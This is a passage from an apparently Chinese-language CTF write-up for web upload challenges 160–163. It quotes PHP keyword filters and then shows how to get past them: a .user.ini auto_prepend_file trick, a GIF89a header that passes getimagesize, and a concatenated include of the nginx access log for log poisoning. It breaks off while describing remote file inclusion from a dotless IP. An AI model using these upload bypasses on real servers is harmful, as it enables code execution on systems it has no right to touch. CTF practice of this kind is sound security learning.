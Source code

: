 ```
function check($str){
    return !preg_match('/php|\{|\[|\;|log|\(| |\`/i', $str);
}
```

```
2.png内容
<?include'/var/l'.'og/nginx/access.l'.'og'?>
```

![image-20231129193204434](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20231129193204434.png)

## web161

### 考点：GIF89a绕过getimagesize

```
function check($str){
    return !preg_match('/php|\{|\[|\;|log|\(| |\`/i', $str);
}
```

![image-20231129195851229](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20231129195851229.png)

getimagesize函数，获取图片大小信息

添加文件头GIF89a可以绕过

```
//.user.ini
GIF89a
auto_prepend_file=2.png
//2.png
GIF89a
<?include'/var/l'.'og/nginx/access.l'.'og'?>
```

## web162，163

### 考点：长地址远程包含，session文件包含

```
function check($str){
    return !preg_match('/php|\{|\[|\;|log|\(| |\`|flag|\./i', $str);
}
```

姿势一：远程文件包含

条件：allow_url_include为ON

将vps的IP地址转换成长地址（不含点）

上传.user.ini
